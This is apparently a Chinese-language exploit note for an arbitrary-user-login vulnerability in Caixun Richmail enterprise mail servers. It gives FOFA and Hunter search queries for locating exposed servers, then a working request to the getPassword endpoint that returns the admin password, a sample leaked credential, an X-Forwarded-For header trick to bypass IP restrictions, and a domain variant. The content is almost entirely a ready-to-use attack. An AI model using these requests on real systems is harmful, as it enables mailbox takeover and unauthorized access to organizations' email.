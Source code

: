 # 彩讯 Richmail 任意用户登录漏洞

## 网络测绘

fofa: app="Richmail-企业邮箱"

hunter: web.title="Richmail 企业邮箱" || web.body="Richmail 企业邮箱" || web.body="richmail.config.js"

## POC / EXP

```
/RmWeb/noCookiesMail?func=user:getPassword&userMailName=admin

{'code':'S_OK','var':{"result":0,"errorMsg":"64e561f1c9dd993cef96"}}

admin/64e561f1c9dd993cef96
```

```
IP 受限
X-Forwarded-For: 127.0.0.1
```

```
/RmWeb/noCookiesMail?func=user:getPassword&userMailName=admin@+证书 or 根域名
```